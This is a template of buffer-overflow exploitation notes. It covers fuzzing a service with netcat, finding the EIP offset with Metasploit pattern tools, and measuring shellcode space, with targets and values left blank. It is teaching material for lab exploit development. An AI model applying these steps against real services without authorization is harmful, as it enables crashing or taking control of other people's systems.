 
**References**
> https://kashz.gitbook.io/kashz-jewels/buffer-overflow-guide/methodology


**Manual Testing**

*Fuzzing*

Start and run the application. Either `attach` a running process or `open` a process and `run` the execution.

Send the payload manually.

```bash
printf -- 'A%.0s' {1..2000} > payload ; nc -nvC  < payload
```

Check if `Access Violation when executing [41414141]`  message appears and the execution pauses.

> The violation happens when sending `` characters of data.


*Finding the Offset*

> Restart and run the application.

```bash
msf-pattern_create -l  > payload ; nc -nvC  < payload
```


```bash
msf-pattern_offset -l  -q 
```

```text

```


*Controlling EIP and finding available shellcode space*

> Restart and run the application.

```bash
printf -- 'A%.0s' {1..} > payload ; printf -- 'B%.0s' {1..4} >> payload ; printf -- '\x90%.0s' {1..16} >> payload ; printf -- 'C%.0s' {1..5000} >> payload ; nc -nvC  < payload
```


Check in `stack dump` on where the character `C` ends. The difference between that address and `ESP` address is the total available shellcode space.


```bash
printf "%d\n" $(( `printf "0x%X\n" $(( 0x - 0x ))` ))
```

```text

```

If there is not enough space, check for other registers which contain the buffer value. Find the `jump op code` for that address. Use the address in shellcode to point to payload.
